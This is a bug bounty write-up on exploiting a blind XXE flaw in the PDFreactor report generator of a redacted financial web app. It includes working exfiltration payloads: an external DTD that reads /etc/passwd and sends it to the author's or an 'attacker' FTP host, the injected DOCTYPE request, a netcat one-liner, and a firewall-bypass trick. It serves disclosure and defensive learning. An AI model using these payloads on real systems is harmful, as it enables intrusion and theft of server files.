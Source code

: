 ```yaml
---
layout: post
title: "Data Exfiltration through Blind XXE on PDF Generator"
summary: "In this post, I will explain how I found a Blind XXE injection on PDF Generator that was vulnerable to CVE-2019-12154"
categories: BugBounty
largeimage: /assets/images/49.png
---
```

## Data Exfiltration through Blind XXE on PDF Generator

# Summary:

&nbsp;
In this post, I will explain how I found a Blind XXE injection on PDF Generator that was vulnerable to CVE-2019-12154. However, in order to exfilftrate data, I had to bypass some WAF restrictions.
&nbsp;

&nbsp;
![image49]({{ site.baseurl }}/assets/images/49.png){:.images}
&nbsp;

An XML External Entity attack is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts.
&nbsp;

The web application that I was testing was designed for financial operations, and low-level users were able to generate reports. Because this was a private bug bounty program, I've redacted some of the screenshots below and referred to the target as **"redacted.com"**.
&nbsp;

RealObjects PDFreactor (version 9.1.97971) was used in the web application to generate PDF reports. Versions of PDFReactor prior to "10.1.1" are vulnerable to CVE-2019-12154, which does not have a publicly available PoC, but I was able to reproduce the issue by injecting malicious XML content and exfiltrate data using external DTD's.
&nbsp;

In order to reproduce this vulnerability, two attacking machines with publicly accessible IP addresses were required. This was due to the PDF Generator machine's firewall only allowing requests to port 443. The need for an SSL certificate was eliminated because I was able to bypass the application logic by using **http://** as protocol and appending port **:443** at the end of the url, such as **http://attacker.com:443**.


# Steps to Reproduce:

&nbsp;
**1. Preparing the needed scripts and payloads:**{: style="color: red"}
&nbsp;

While exploiting this vulnerability, I had pointed the below subdomains to two different IP's.
&nbsp;

1. http.arben.sh -> [IP_HERE]
1. ftp.arben.sh -> [ANOTHER_IP_HERE]

&nbsp;
On the `ftp.arben.sh`{: style="color: red"} server I used [xxe-ftp-server.rb](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb) which uses Ruby language to launch an FTP server on the attacker's specified port (in this case 443).
&nbsp;

To do this, I changed line nr. 3 on xxe-ftp-server.rb script from **"ftp_server = TCPServer.new 2121"** to **"ftp_server = TCPServer.new 443**".
&nbsp;

Then fired up the script using the following command:
> $> ruby xxe-ftp-server.rb
> {: style="color: red"}

&nbsp;

Heading over to `http.arben.sh`{: style="color: red"} subdomain, in the directory where the HTTP server would be running, I created a file named **payload.dtd** with the following content.
&nbsp;

&nbsp;
```xml
<!ENTITY % stuff SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'ftp://ftp.arben.sh:443/%stuff;'>">
```
&nbsp;

A simple way to start a HTTP server on a desired port is by using Python with the following command:
> $> python3 -m http.server 443
> {: style="color: red"}
&nbsp;

**2. Sending the malicious request:**{: style="color: red"}
&nbsp;

I logged in using my low-privileged account and navigated to the report generation page from the left menu. I had BurpSuite on the background intercepting the requests and clicked on the "PDF" text (marked with red sign as shown in the screenshot below) in order to generate the PDF.

&nbsp;
![image46]({{ site.baseurl }}/assets/images/46.png){:.images}
&nbsp;

On the intercepted request being made to "https://redacted.com/redacted/api/v1/pdf/download", I then edited the **htmlBody=**{: style="color: red"} parameter with the following payload (URL encoded):
&nbsp;

&nbsp;
```xml
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "https://http.arben.sh:443/payload.dtd"> %pe; %param1; ]>
<foo>&external;</foo>
```

&nbsp;
- The above payload would send a HTTP request to our HTTP server and execute the payload stored within **payload.dtd**, which would then exfiltrate data of **/etc/passwd** (or any specified file/directory) to our FTP server as shown on the screenshots below. Even though the target's server responded with a "500 Internal Server Error" status code, the payload was being processed in the backend.


&nbsp;
![image47]({{ site.baseurl }}/assets/images/47.png){:.images}
&nbsp;

Heading over to our virtual private server's, we saw that a request for **payload.dtd** was made and we began receiving data on our FTP server. We were able to easily enumerate files and directories on the target's system because this PDFGenerator was built in Java.

&nbsp;
![image48]({{ site.baseurl }}/assets/images/48.png){:.images}
&nbsp;

When I mentioned this issue to my friend [0xCela](https://twitter.com/0xcela), he came up with a One-Liner that would eliminate the need for two private servers.
&nbsp;

An attacker could use the **netcat** utility to listen on port 443 and serve a static response (malicious dtd), then kill the HTTP server and immediately start an FTP server using the Ruby script. Even though this appears to be simple because it requires less effort to set up the payloads, it may only work occasionally due to race conditions and lower the vulnerability severity, but again it would reduce the attacker's cost.
&nbsp;

**Command on VPS:**
&nbsp;

```bash
echo -e 'HTTP/1.1 200 OK\n\n<!ENTITY % payl SYSTEM '"'"'file:///etc/passwd'"'"'>\n<!ENTITY % int "<!ENTITY &#37; trick SYSTEM '"'"'ftp://attacker:443/%payl;'"'"'>">' | nc -N -lnvp 443; ruby xxe-ftp-server.rb

```
&nbsp;

**Request payload on BurpSuite:**
&nbsp;

```xml
<?xml version="1.0"?><!DOCTYPE convert [ <!ENTITY % remote SYSTEM "http://attacker:443/">%remote;%int;%trick;]>
```
&nbsp;

*Note: A PDF Generator may appear insignificant at first glance but it can be an open door to your organization for the attacker. To resolve such issues, make sure your software is always up to date and that proper WAF rules are in place.*

&nbsp;
*Thank you for taking the time to read this, and I hope you find it useful.*
&nbsp;
